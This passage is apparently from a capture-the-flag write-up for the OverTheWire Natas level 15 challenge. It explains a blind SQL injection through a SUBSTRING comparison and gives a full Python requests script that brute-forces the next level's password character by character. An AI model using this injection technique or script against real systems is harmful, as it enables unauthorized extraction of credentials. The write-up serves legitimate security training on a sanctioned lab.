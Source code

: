 
```
SELECT * from users where username="natas16" AND our_exploit
```

To pick this additional clause, we look at the [SQL wildcards and keywords]

We can use the SQL function [SUBSTRING] and the symbol **%** to compare strings. For example, the following checks whether there is an **a** in the third position of the variable password:



[SQL wildcards and keywords]: http://www.w3schools.com/sql/sql_wildcards.asp
[SUBSTRING]: http://www.1keydata.com/sql/sql-substring.html

```
AND SUBSTRING(password,3,1) = BINARY "a"
```

If SUBSTRING returns false, the entire query becomes false because of the **AND** and we see the message:

> This user doesn’t exist.

If it returns true, we see

> This user exists.

Beautiful.

#### Crafting the attack:

We use Python's [request] library to craft our attack:

[request]: http://docs.python-requests.org/en/latest/user/quickstart/

```python
import requests
import string

def brute_force_password(LENGTH, AUTH, CHARS, SQL_URL1, SQL_URL2, KEYWORD):
        password = ''
        for i in range(1, LENGTH+1):
            for j in range (len(CHARS)):
                r = requests.get( ( SQL_URL1 + str(i) + SQL_URL2 + CHARS[j] ), auth=AUTH)
                print r.url
                if KEYWORD in r.text:
                        password += CHARS[j]
                        print("Password so far: " + password)
                        break
        return password

if __name__ == '__main__':
        # authorization: login and password
        AUTH = ('natas15', '*******************************')

        # BASE64 password and 32 bytes
        CHARS = string.ascii_letters + string.digits
        LENGTH = 32

        # crafted url option 1
        SQL_URL1 = 'http://natas15.natas.labs.overthewire.org?username=natas16" AND SUBSTRING(password,'
        SQL_URL2 = ',1) LIKE BINARY "'
        KEYWORD = 'exists'

        print(brute_force_password(LENGTH, AUTH, CHARS, SQL_URL1, SQL_URL2, KEYWORD))
```


[Wargames]: http://overthewire.org/wargames/
[Natas]: http://overthewire.org/wargames/natas/
[robots.txt]: http://en.wikipedia.org/wiki/Robots_exclusion_standard
[referer]: http://en.wikipedia.org/wiki/HTTP_referer
[tampermonkey]: https://chrome.google.com/webstore/detail/tampermonkey/dhdgffkkebhmkfjojejmpbldmpobfkfo?hl=en
[modify-headers]: https://chrome.google.com/webstore/detail/modify-headers-for-google/innpjfdalfhpcoinfnehdnbkglpmogdi?hl=en-US
[edit this cookie]: http://www.editthiscookie.com/start/
[strrev]: http://php.net/manual/en/function.strrev.php
[passthru]: http://php.net/manual/en/function.passthru.php
[OS command injection]: https://www.owasp.org/index.php/OS_Command_Injection
[preg_match]: http://php.net/manual/en/function.preg-match.php
[readfile()]:  http://php.net/manual/en/function.readfile.php
[system]: http://php.net/manual/en/function.system.php
[Burp Suite]: http://portswigger.net/burp/
[FireBug]: http://getfirebug.com/
[this is how you run it]: http://portswigger.net/burp/help/suite_gettingstarted.html
[SQL Injection]: https://www.owasp.org/index.php/SQL_Injection
[command substitution]: http://www.tldp.org/LDP/abs/html/commandsub.html
[sleep()]: http://dev.mysql.com/doc/refman/5.0/en/miscellaneous-functions.html#function_sleep
[is_numeric]: http://php.net/manual/en/function.is-numeric.php
[SESSION_ID]: http://en.wikipedia.org/wiki/Session_ID
[$_REQUEST]: http://php.net/manual/en/reserved.variables.request.php
[session_starts()]: http://php.net/manual/en/function.session-start.php
[source code is available]: https://github.com/bt3gl/CTFs-Gray-Hacker-and-PenTesting/tree/master/Web_Exploits